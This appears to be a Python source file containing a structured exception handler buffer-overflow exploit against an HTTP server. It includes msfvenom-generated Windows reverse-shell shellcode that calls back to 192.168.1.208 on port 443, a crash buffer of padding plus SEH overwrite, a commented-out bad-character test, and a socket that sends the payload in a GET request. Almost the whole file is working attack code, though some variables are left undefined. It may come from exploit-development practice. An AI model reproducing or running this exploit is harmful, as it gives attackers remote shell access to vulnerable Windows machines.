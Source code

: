 ```python
#msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.1.208 LPORT=443 -f c -b '\x00\x20\x25\x2b\x2f\x5c'
#351 bytes
shellcode = ("\xb8\x74\x9a\x9e\xe1\xd9\xe8\xd9\x74\x24\xf4\x5b\x31\xc9\xb1"
"\x52\x31\x43\x12\x03\x43\x12\x83\x9f\x66\x7c\x14\xa3\x7f\x03"
"\xd7\x5b\x80\x64\x51\xbe\xb1\xa4\x05\xcb\xe2\x14\x4d\x99\x0e"
"\xde\x03\x09\x84\x92\x8b\x3e\x2d\x18\xea\x71\xae\x31\xce\x10"
"\x2c\x48\x03\xf2\x0d\x83\x56\xf3\x4a\xfe\x9b\xa1\x03\x74\x09"
"\x55\x27\xc0\x92\xde\x7b\xc4\x92\x03\xcb\xe7\xb3\x92\x47\xbe"
"\x13\x15\x8b\xca\x1d\x0d\xc8\xf7\xd4\xa6\x3a\x83\xe6\x6e\x73"
"\x6c\x44\x4f\xbb\x9f\x94\x88\x7c\x40\xe3\xe0\x7e\xfd\xf4\x37"
"\xfc\xd9\x71\xa3\xa6\xaa\x22\x0f\x56\x7e\xb4\xc4\x54\xcb\xb2"
"\x82\x78\xca\x17\xb9\x85\x47\x96\x6d\x0c\x13\xbd\xa9\x54\xc7"
"\xdc\xe8\x30\xa6\xe1\xea\x9a\x17\x44\x61\x36\x43\xf5\x28\x5f"
"\xa0\x34\xd2\x9f\xae\x4f\xa1\xad\x71\xe4\x2d\x9e\xfa\x22\xaa"
"\xe1\xd0\x93\x24\x1c\xdb\xe3\x6d\xdb\x8f\xb3\x05\xca\xaf\x5f"
"\xd5\xf3\x65\xcf\x85\x5b\xd6\xb0\x75\x1c\x86\x58\x9f\x93\xf9"
"\x79\xa0\x79\x92\x10\x5b\xea\x5d\x4c\x62\x3a\x35\x8f\x64\xbb"
"\x7d\x06\x82\xd1\x91\x4f\x1d\x4e\x0b\xca\xd5\xef\xd4\xc0\x90"
"\x30\x5e\xe7\x65\xfe\x97\x82\x75\x97\x57\xd9\x27\x3e\x67\xf7"
"\x4f\xdc\xfa\x9c\x8f\xab\xe6\x0a\xd8\xfc\xd9\x42\x8c\x10\x43"
"\xfd\xb2\xe8\x15\xc6\x76\x37\xe6\xc9\x77\xba\x52\xee\x67\x02"
"\x5a\xaa\xd3\xda\x0d\x64\x8d\x9c\xe7\xc6\x67\x77\x5b\x81\xef"
"\x0e\x97\x12\x69\x0f\xf2\xe4\x95\xbe\xab\xb0\xaa\x0f\x3c\x35"
"\xd3\x6d\xdc\xba\x0e\x36\xfc\x58\x9a\x43\x95\xc4\x4f\xee\xf8"
"\xf6\xba\x2d\x05\x75\x4e\xce\xf2\x65\x3b\xcb\xbf\x21\xd0\xa1"
"\xd0\xc7\xd6\x16\xd0\xcd")

crash = "A" * 4061
crash += nseh
crash += seh
crash += shellcode
crash += "D" * (5000 - len(crash))
'''
#\x20\x25\x2b\x2f\x5c
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x21\x22\x23\x24\x26\x27\x28\x29\x2a\x2c\x2d\x2e\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash = 'A' * 4500
crash += badchars
crash += 'D' * (5000 - len(crash))
'''

buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
```